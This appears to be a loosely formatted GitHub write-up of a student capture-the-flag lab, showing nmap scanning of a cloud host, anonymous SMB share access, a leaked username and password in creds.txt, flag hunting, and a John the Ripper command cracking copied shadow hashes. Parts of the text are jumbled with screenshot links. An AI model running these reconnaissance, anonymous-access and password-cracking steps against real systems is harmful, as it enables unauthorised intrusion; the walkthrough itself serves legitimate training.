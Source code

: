 # felix-bett capture the flag 
└─$ nmap -sV -Pn 44.202.86.42                                                
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-28 11:31 EDT              
Nmap scan report for ec2-44-202-86-42.compute-1.amazonaws.com (44.202.86.42) 
Host is up (0.32s latency).                                                  
Not shown: 996 filtered tcp ports (no-response)                              
PORT    STATE SERVICE     VERSION                                            
22/tcp  open  ssh         OpenSSH 9.6p1 Ubuntu 3ubuntu13.12 (Ubuntu Linux; protocol 2.0)                                                                  
80/tcp  open  http        SimpleHTTPServer 0.6 (Python 3.12.3)               
139/tcp open  netbios-ssn Samba smbd 4                                       
445/tcp open  netbios-ssn Samba smbd 4                                       
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel                      
                                                                             
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .                                                            
Nmap d![Screenshot_2025-06-28_11_32_42](https://github.com/user-attachments/assets/0f51e712-d07e-43c2-bfda-bb7c9fb0846d)
one: 1 IP address (1 host up) scanned in 33.18 seconds 

2   139/tcp open  netbios-ssn Sa![20250315_215537](https://github.com/user-attachments/assets/ab60a871-5014-4c03-8c51-281a45211641)
mba smbd 4
3
llyspirit㉿kali)-[~]
└─$ curl http://44.202.86.42:80/flag/index.html
shujaa{web_flag_8080}

┌──(hollyspirit㉿kali)-[~]
![Screenshot_2025-06-28_11_46_54](https://github.com/user-attachments/assets/5424116d-e58e-4c29-b4f8-7b9941d7a797)

 4 
 445/tcp open  netbios-ssn Samba smbd 4
 




6
 
        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      
        midexam         Disk      
        IPC$            IPC       IPC Service (Samba Server)
Reconnecting with SMB1 for workgroup listing.
smbXcli_negprot_smb1_done: No compatible protocol selected by server.
Protocol negotiation to server 44.202.86.42 (for a protocol between LANMAN1 and NT1) failed: NT_STATUS_INVALID_NETWORK_RESPONSE
Unable to connect with SMB1 -- no workgroup available
![Screenshot_2025-06-28_12_02_50](https://github.com/user-attachments/assets/674130a6-0389-470a-bdb7-76d8b5ebbb76)

7 
2
print$          Disk      
        midexam         Disk      
        IPC$            IPC   
8
 smbclient //44.202.86.42/IPC$ -N                                                    
Try "help" to get a list of possible commands.
smb: \> 
![Screenshot_2025-06-28_12_10_04](https://github.com/user-attachments/assets/a706cfd0-605c-4c62-9be6-e9d77db02e78)
9
$ smbclient //44.202.86.42/midexam -N
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Jun 28 10:42:27 2025
  ..                                  D        0  Sat Jun 28 10:42:27 2025
  examdata                            D        0  Sat Jun 28 10:42:27 2025

                7034376 blocks of size 1024. 3570612 blocks available
smb: \> ls
![Screenshot_2025-06-28_12_12_27](https://github.com/user-attachments/assets/2151f395-41f9-4b82-be40-5b9f7b2ee1af)

10
┌──(hollyspirit㉿kali)-[~]
└─$ unzip project.zip                                                                  
Archive:  project.zip
 extracting: flag.txt                
 extracting: creds.txt               

┌──(hollyspirit㉿kali)-[~]
└─$ cat flag.txt                                                                       
shujaa{file_extract_flag}
![Screenshot_2025-06-28_12_27_00](https://github.com/user-attachments/assets/dc1cf4e9-95a8-4ff7-9b0a-a9fe6f9ab6d8)

11
└─$ cat creds.txt                                                                      
user:malisafi
password:DuncanIsHimL0L
![Screenshot_2025-06-28_12_29_21](https://github.com/user-attachments/assets/d6a66804-4dcf-4048-bf71-c730bc8d0b4f)

12
malisafi@ip-172-31-94-184:~$ cat flag.txt
shujaa{home_directory_flag}
![Screenshot_2025-06-28_12_32_52](https://github.com/user-attachments/assets/59a9d7be-e922-4916-b14a-1ae4fcd479dc)
13
base64file
![Screenshot_2025-06-28_12_35_34](https://github.com/user-attachments/assets/3e5c29b8-73be-440f-9a61-00f59a60ce06)

14
shujaa{decode_th1s_fl4g}
![Screenshot_2025-06-28_12_36_55](https://github.com/user-attachments/assets/02d4b63c-bd04-4934-ae7d-949d26a87f62)

15
malisafi@ip-172-31-94-184:~$ grep -i shujaa grepme.txt
shujaa{gr3p_th3_r1ght_l1n3}
![Screenshot_2025-06-28_12_38_11](https://github.com/user-attachments/assets/0db8d9f2-278c-4d6c-9d1b-8547f65806f9)
16
malisafi@ip-172-31-94-184:~$ ./checkflag examfile.txt
shujaa{vim_trigger_master}
![Screenshot_2025-06-28_12_40_00](https://github.com/user-attachments/assets/7bfbab72-51e7-41bb-8c2f-481cfe23cc7d)
17
./checkifcompressed examfile.zip
![Screenshot_2025-06-28_12_43_02](https://github.com/user-attachments/assets/63e716ac-bf47-4cb0-85af-5e563cc42f16)
18
-rw-rw-r-- 1 malisafi malisafi 1946 Jun 28 16:32 passwd
-rw-rw-r-- 1 malisafi malisafi 1124 Jun 28 16:17 shadow
![Screenshot_2025-06-28_12_44_36](https://github.com/user-attachments/assets/ade13a10-9818-4d1a-bab0-5fa9f4cdb1b3)
19
john --wordlist=/usr/share/wordlists/rockyou.txt --format=sha512crypt unshadowed.txt
20/home/examadmin/flag.txt

